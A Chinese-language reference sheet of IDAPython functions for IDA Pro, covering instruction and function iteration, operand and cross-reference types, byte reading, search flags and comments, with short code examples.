  + > 这种方法的一个缺陷是它依赖于指令被包含在函数开始和结束的边界内。打个比方说，函数内有个 jmp 指令，它跳转到比这个函数结束地址还要高的地址中去，意思是这个函数的所有指令可能并不是线性的，它可能会通过jmp 跳出函数边界（起始地址和结束地址），但其实这段指令仍是属于这个函数的，那么我们使用上述的方法就不能够遍历到该函数要执行的所有指令。这种跳转在代码混淆中非常的常见，所以说我们最好还是使用 idautils.FuncItems(ea)来循环函数内的指令。

  + prev_head(addr)：获取addr的上一条指令地址

+ get_operand_type(ea,n)：获取操作数类型，n=0表示第一个操作数，n=1表示第二个操作数

+ prev_addr(addr)，prev_addr(addr)：获取地址的**下一个或上一个地址**

+ get_operand_value(ea,n)：获取操作数中的立即数(如果有多个就是计算后的结果)

+ op_plain_offset(ea,n,base)：将操作数转换为一个偏移地址(字符串偏移，函数偏移)，该函数的第一个参数为地址，第二个参数为操作数的索引，第三个参数是基地址

+ MakeName(ea, name)：将一个地址重命名

+ find_binary(ea,flag,searchstr,radix=16)：进行字节或二进制搜索(比如说 0x55,0x8b,0xec 这种字节序列)。flag表示搜索方向或条件

  + searchstr 是我们要查找的形态：0x55 0x8B 0xEC或 55 8B EC 不可以\x55\x8B\xEC
  + radix暂时忽略

+ find_text(ea, flag, y, x, searchstr, from_bc695=False)：类似用于搜索，专用于搜索字符串(识别出来的)

+ get_full_flags(ea)：地址的内部标志表示，然后用如下函数判读地址类型：

  + ```python
    idc.is_code(f) # 判断是否是代码
    idc.is_data(f) # 判断是否是数据
    idc.is_tail(f) # 判断 IDA 是否将其判定为尾部。
    idc.is_unknown(f) # 判断 IDA 是否将其判定为未知，即既不是数据，也不是代码。
    idc.is_head(f) # 判断 IDA 是否将其判定为头部。
    ```

+ find_data(ea,flag)：返回的是数据段的地址

+ find_unknown(ea,flag)：用于查找 IDA 未识别为代码或数据的字节地址。未知类型需要通过观察或脚本进一步手动分析。

+ find_defined(ea, flag)：它用于查找 IDA 标识为代码或数据的地址。

+ find_imm(ea, flag, value)：用来寻找立即数

+ read_selection_start（）和read_selection_end（）：获取选中的高亮区的起始地址和结束地址

  + ​	注意`idc.read_selection_end()`获取的的并不是这一段代码的末尾地址，选中部分的最后一条指令的下一条指令的起始地址。

+ idc.set_cmt(ea, cmt, 0) 和 idc.set_cmt(ea, cmt, 1)：增加注释 当f后面置1时为重复性注释

  + 重复性注释会因为某些地址引用了当前地址的内容，而会自动添加上注释。

+ get_cmt(ea, 0) 和get_cmt(ea, 1)：获取(重复性)注释

+ set_func_cmt(ea, cmt, repeatable)和get_func_cmt(ea, repeatable)：设置或读取函数注释

+ set_name(ea, name, SN_CHECK)：重命名某个地址的函数。

+ 获取某地址出的原始数据：

  + ```c
    idc.get_wide_byte(ea) // 获取单字节
    idc.get_wide_word(ea) // 获取一个字
    idc.get_wide_dword(ea) // 获取双字
    idc.get_qword(ea) // 获取四字
    idc.GetFloat(ea) 
    idc.GetDouble(ea)
    ```

  + idc.get_bytes(ea, size, use_dbg = False)：来获取某个地址开始的更多的字节。最后一个参数是可选的，用来指定是否正在调试内存。返回bytes类型


### 数值

get_func_attr的第二个参数(获取函数属性)：

> ```bash
> FUNCATTR_START = 0 # function start address
> FUNCATTR_END = 4 # function end address
> FUNCATTR_FLAGS = 8 # function flags
> FUNCATTR_FRAME = 10 # function frame id
> FUNCATTR_FRSIZE = 14 # size of local variables
> FUNCATTR_FRREGS = 18 # size of saved registers area
> FUNCATTR_ARGSIZE = 20 # number of bytes purged from the stack
> FUNCATTR_FPD = 24 # frame pointer delta
> FUNCATTR_COLOR = 28 # function color code
> FUNCATTR_OWNER = 10 # chunk owner (valid only for tail chunks)
> FUNCATTR_REFQTY = 14 # number of chunk parents (valid only for tail chunks)
> ```

其中`FUNCATTR_FLAGS`属性对应返回：

```assembly
FUNC_NORET: 这个标志表示某个函数是否有返回值，它本身的值是 1，下面是一个没有返回值的函数，
注意它没有函数的最后并不是 ret 或者 leave 指令

FUNC_FAR: 这个标志非常少的出现，标志程序是否使用分段内存，它的值为 2。

FUNC_USERFAR: 这个标志也非常少见，也很少有文档，HexRays 把它描述为“user has specified far-ness
of the function”，它的值是 32.

FUNC_LIB: 这个表示用于寻找库函数的代码。识别库函数代码是非常有必要的，因为我们在分析的
时候一般将其跳过，它的值是 4。下面的例子展示了如何使用这个标志。

for func in idautils.Functions():
    flags = idc.get_func_attr(func, FUNCATTR_FLAGS)

    if flags & FUNC_LIB:
        print(hex(func), "FUNC_LIB",get_func_name(func))
        
FUNC_STATIC: 这个标志作用在于识别该函数在编译的是否是一个静态函数。在 c 语言中静态函数被默
认为是全局的。如果作者把这个函数定义为静态函数，那么这个函数在只能被本文件中的函
数访问。利用静态函数的判定我们可以更好的理解源代码的结构。

FUNC_FRAME: 这个标志表示函数是否使用了 ebp 寄存器（帧指针），使用 ebp 寄存器的函数通常有如
下的语法设定，目的是为了保存栈帧。

.text:00404C90                 push    ebp
.text:00404C91                 mov     ebp, esp
.text:00404C96                 sub     esp, 65Ch

FUNC_BOTTOMBP: 和 FUNC_FRAME 一样，该标志用于跟踪帧指针（ebp）。它作用是识别函数中帧指针是
否等于堆栈指针（esp）。

FUNC_HIDDEN: 带有 FUNC_HIDDEN 标志的函数意味着它们是隐藏的，这个函数需要展开才能查看。如
果我们跳转到一个标记为 HIDDEN 的地址的话，它会自动的展开。

FUNC_THUNK: 表示这个函数是否是一个 thunk 函数，thunk 函数表示的是一个简单的跳转函数。

.text:1A710606 Process32Next proc near
.text:1A710606 jmp ds:__imp_Process32Next
.text:1A710606 Process32Next endp

需要注意的是一个函数可能拥有多个标志的组合。
```


get_operand_type返回的操作数类型：

```assembly
o_void: 如果指令没有任何操作数，它将返回 0。
o_reg: 如果操作数是寄存器，则返回这种类型，它的值为 1
o_mem: 如果操作数是直接寻址的内存，那么返回这种类型，它的值是 2，这种类型对寻找 DATA
的引用非常有帮助。

Python>print hex(ea), idc.GetDisasm(ea)
0xa05d86 cmp ds:dword_A152B8, 0
Python>print idc.GetOpType(ea,0)
2

o_phrase: 如果操作数是利用基址寄存器和变址寄存器的寻址操作的话，那么返回该类型，值为3

Python>print hex(ea), idc.GetDisasm(ea)
0x1000b8c2 mov [edi+ecx], eax
Python>print idc.GetOpType(ea,0)
3

o_displ: 如果操作数是利用寄存器和位移的寻址操作的话，返回该类型，值为 4，位移指的是像如下代码中的 0x18，这在获取结构体中的某个数据是非常常见的。

Python>print hex(ea), idc.GetDisasm(ea)
0xa05dc1 mov eax, [edi+18h]
Python>print idc.GetOpType(ea,1)
4

o_imm: 如果操作数是一个确定的数值的话，那么返回类型，值为 5
-------------------------------------------
Python>print hex(ea), idc.GetDisasm(ea)
0xa05da1 add esp, 0Ch
Python>print idc.get_operand_type(ea,1)
5
-------------------------------------------
o_far: 这种返回类型在 x86 和 x86_64 的逆向中不常见。它用来判断直接访问远端地址的操作数，值为6
o_near: 这种返回类型在 x86 和 x86_64 的逆向中不常见。它用来判断直接访问近端地址的操作数，值为 7
```


search类型的flag：

```c
SEARCH_UP = 0
SEARCH_DOWN = 1
SEARCH_NEXT = 2
SEARCH_CASE = 4
SEARCH_REGEX = 8
SEARCH_NOBRK = 16
SEARCH_NOSHOW = 32
SEARCH_IDENT = 128
SEARCH_BRK = 256
```

常用：

- SEARCH_UP 和 SEARCH_DOWN 用来指明搜索的方向
- SEARCH_NEXT 用来获取下一个已经找到的对象
- SEARCH_CASE 用来指明是否区分大小写
- SEARCH_NOSHOW 用来指明是否显示搜索的进度


## idautils常用

返回的元素集都是ida识别出来的(函数或data)

### 函数

+ Segments()：获取所有段(以首地址的形式)
+ Functions（）：获取所有函数地址(已识别的)
+ get_func_qty()：获取已识别的函数个数
+ getn_func(1)：获取第一个函数**对象**(func_t *)
+ get_func(addr)：返回取某地址对应的函数对象(func_t *)
  + start_ea，end_ea：函数对象---首地址，尾地址
+ get_next_func（addr），get_prev_func（addr）：获取addr后一个，前一个函数对象
+ FuncItems(addr)：返回addr对应函数中的所有指令的地址(**迭代器形式**)
+ CodeRefsTo(addr, flow)：返回对addr所有的引用(已识别)，flow 参数是一个 bool 值，它用于指定是否遵循正常的代码流。如果flow等于0将会把正常的执行流对该addr的调用也算进交叉引用集中
+ CodeRefsFrom(ea,flow)：类似的获取地址所在函数所有引用的函数
+ Names（）：获取所有函数的信息，每个函数对应(ea, str_name)的元组。
+ CodeRefsTo（ea，flow）：限制是，动态导入并手动重命名的 API 不会
  显示为代码交叉引用
+ XrefsTo(ea, flags=0)和.XrefsFrom(ea,flags=0)：也用于引用。调用两个函数就能完成获取所有交叉引用地址和调用地址的效果。返回对象
  + 如果我们将 flag 设为 0 的话，那么它将会显示该地址的任意交叉引用。设置flag为0获取的交叉引用不只是来自于分支跳转指令，同时还会来自正常的指令流程，设置flag为1可以略过正常指令流程造成的交叉引用

### 值

对于XrefsTo和XrefsFrom返回的对象：

+ type：交叉引用的类型

  + > ```c
    > 0= 'Unknown'
    > 1= 'Offset'
    > 2= 'Write'
    > 3= 'Read'
    > 4= 'Text'
    > 5 = 'Data_Informational'
    > 16= 'Far_Call'
    > 17= 'Near_Call'
    > 18= 'Far_Jump'
    > 19= 'Near_Jump'
    > 20= 'Code_User'
    > 21 = 'Ordinary_Flow'
    > ```

+ frm：引用地址。 to：被引用地址

+ iscode：是否在代码段


